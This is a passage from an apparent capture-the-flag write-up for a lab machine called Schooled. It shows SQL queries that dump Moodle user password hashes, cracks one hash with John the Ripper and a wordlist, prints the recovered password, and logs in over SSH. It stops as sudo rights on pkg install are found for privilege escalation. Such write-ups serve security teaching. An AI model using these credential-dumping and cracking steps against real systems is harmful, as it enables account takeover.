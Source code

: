 Enumerating the Moodle database:
```
moodle@localhost [moodle]> show databases;
moodle@localhost [moodle]> use moodle;
moodle@localhost [moodle]> show tables;
moodle@localhost [moodle]> describe mdl_user;
moodle@localhost [moodle]> select id,firstname,username,password from mdl_user;
```
```
+----+------------+-------------------+--------------------------------------------------------------+
| id | firstname  | username          | password                                                     |
+----+------------+-------------------+--------------------------------------------------------------+
|  1 | Guest user | guest             | $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2 |
|  2 | Jamie      | admin             | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW |
|  3 | Oliver     | bell_oliver89     | $2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK |
|  4 | Sheila     | orchid_sheila89   | $2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC |
(...)
```

There are 27 users and their password hashes, but in _/etc/passwd_ are two users that can login called _jamie_ and _steve_:
```
cat /etc/passwd | grep -v login
```

The user _jamie_ is also the admin of the database, so this is probably the user to escalate privileges to.
Trying to crack password hash with **John The Ripper**:
```
john --wordlist=/usr/share/wordlists/rockyou.txt jamie.hash
```

After a while the hash gets cracked and the password is:
> !QAZ2wsx

The password works for the user _jamie_ to login via SSH:
```
ssh jamie@10.10.10.234
```

### Privilege Escalation to root

When checking the root privileges of the user with `sudo -l`, the user can run two commands with `pkg` with elevated privileges:
```
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```
